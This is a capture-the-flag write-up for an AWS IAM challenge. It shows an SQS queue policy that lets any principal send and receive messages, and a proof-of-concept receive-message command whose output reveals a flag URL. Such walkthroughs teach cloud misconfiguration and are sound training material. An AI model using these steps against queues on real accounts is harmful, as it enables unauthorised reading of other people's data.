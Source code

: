 # Google Analytics Problem

## Description

We created our own analytics system specifically for this challenge. We think it's so good that we even used it on this page. What could go wrong?

Join our queue and get the secret flag.

## IAM Policy

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": "*",
            "Action": [
                "sqs:SendMessage",
                "sqs:ReceiveMessage"
            ],
            "Resource": "arn:aws:sqs:us-east-1:092297851374:wiz-tbic-analytics-sqs-queue-ca7a1b2"
        }
    ]
}
```

## Solution
This problem involves the "wiz-tbic-analytics-sqs-queue-ca7a1b2" SQS's SendMessage and ReceiveMessage permissions, which are open to anyone (Principal: *) to perform actions like sending or receiving messages.

(Note: Although it was initially thought that external access was possible, SQS could only be accessed through the provided WEB CLI in The Big IAM Challenge.)

Messages received from this SQS contained a URL, and accessing this URL would allow obtaining the flag.

SQS URL Format: https://sqs.{REGION}.amazonaws.com/{Queue-Owner-AWS-Account-ID}/{SQS-NAME}

## Proof of Concept (PoC)
Receive a message from the SQS.

```json
> aws sqs receive-message --queue-url "https://sqs.us-east-1.amazonaws.com/092297851374/wiz-tbic-analytics-sqs-queue-ca7a1b2"
{
    "Messages": [
        {
            "MessageId": "8fad8513-6249-4c6e-9e81-7478e0a667b6",
            "ReceiptHandle": "...(truncated)...",
            "MD5OfBody": "4cb94e2bb71dbd5de6372f7eaea5c3fd",
            "Body": "{\"URL\": \"https://tbic-wiz-analytics-bucket-b44867f.s3.amazonaws.com/pAXCWLa6ql.html\", \"User-Agent\": \"Lynx/2.5329.3258dev.35046 libwww-FM/2.14 SSL-MM/1.4.3714\", \"IsAdmin\": true}"
        }
    ]
}
```
Access the URL in the Body to obtain the flag.
